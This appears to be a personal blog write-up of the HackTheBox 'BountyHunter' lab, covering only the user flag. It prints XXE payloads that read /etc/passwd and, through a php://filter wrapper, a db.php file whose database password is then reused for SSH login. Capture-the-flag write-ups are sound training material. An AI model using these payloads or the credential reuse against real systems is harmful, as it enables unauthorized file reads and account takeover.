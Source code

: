```yaml
---
layout: post
title:  "HackTheBox BountyHunter"
date:   2021-10-03
category: Writeup
image: assets/img/blog/BountyHunter.png
author: Lukas Marckmiller
tags: ctf
---
```


# HackTheBox BountyHunter Writeup!

Hi! Thanks for reading my Writeup for the HTB Machine *BountyHunter*


## User.txt

First, i started with running [autorecon](https://github.com/Tib3rius/AutoRecon) (`autorecon <ip>)`. Its a pretty nice tool for gathering information about open ports, services bound to ports and possible attack vectors.
Taking a look on the results of  [autorecon](https://github.com/Tib3rius/AutoRecon) it reveals two open ports, SSH (**22**) and HTTP (**80**).  
![nmap](/assets%5Cimg%5Cblog%5Cbhnmap.png)
I manually visited the website on port 80, found a php script and started running `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://<ip> -x php`. It revealed following files and directories:
|Path|Info  |
|--|--|
| /resources,/index.php,portal.php | accessible|
| /assets, /js, /css| forbidden|
| db.php | accessible blank page|

Next i manually checked the discovered directories and found a tasklist in `http://\<ip>/resources/README.txt` containing following text:

> Tasks:
> 
> [ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
>  [X] Write tracker submit script
>  [ ] Connect tracker submit script to the database
>   [X] Fix developer group permissions

We should keep this information in mind. Also theres a file called `bountylog.js` containing JavaScript code. 

    function returnSecret(data) {
    	return Promise.resolve($.ajax({
                type: "POST",
                data: {"data":data},
                url: "tracker_diRbPr00f314.php"
                }));
    }
    
    async function bountySubmit() {
    	try {
    		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>${$('#exploitTitle').val()}</title>
    		<cwe>${$('#cwe').val()}</cwe>
    		<cvss>${$('#cvss').val()}</cvss>
    		<reward>${$('#reward').val()}</reward>
    		</bugreport>`
    		let data = await returnSecret(btoa(xml));
      		$("#return").html(data)
    	}
    	catch(error) {
    		console.log('Error:', error);
    	}
    }

Analysing the code we can see that it sends a post request with an xml payload to `tracker_diRbPr00f314.php`. I thought about it for a second and got the idea: 
XML + Webrequest = [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing). So i started BurpSuite, moved to `http://<ip>/log_submit.php` and caught the post request to `http://<ip>/tracker_diRbPr00f314.php` which contained  a base64 encoded payload. A URL and base64 decoding later i got the raw request. 

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>1</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>
In  Burp I moved to the Repeater and built my payload with the help of [this list](https://github.com/payloadbox/xxe-injection-payload-list).

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    		<bugreport>
    		<title>&ent;</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>
Base64 and URL encoded i got the contents of the passwd file. 

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
So my XXE attack was successful. Unfortunately i couldn't read any other found files like `db.php` or `portal.php` in my expected web root direcotory at `/var/www/html/`. So i was looking for a different payload to avoid absolute paths and found an alternative payload on [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file).

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/db.php"> ]>
    <data>&example;</data>
It revealed the contents of db.php.

    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>
Nice! So we got a database user and a password. Unfortunately i couldn't find anything else interesting so i moved to the ssh port. Previously we found a user named `development`in `/etc/passwd`, if we try `ssh development@<ip>` we are prompted for a password. We haven't found any password for this user so i just tried the password from the `db.php` file and .... it worked! 

    development@bountyhunter:~$ id   
    uid=1000(development) gid=1000(development) groups=1000(development)
  So we can retrieve the first flag.

## Root.txt
... soon

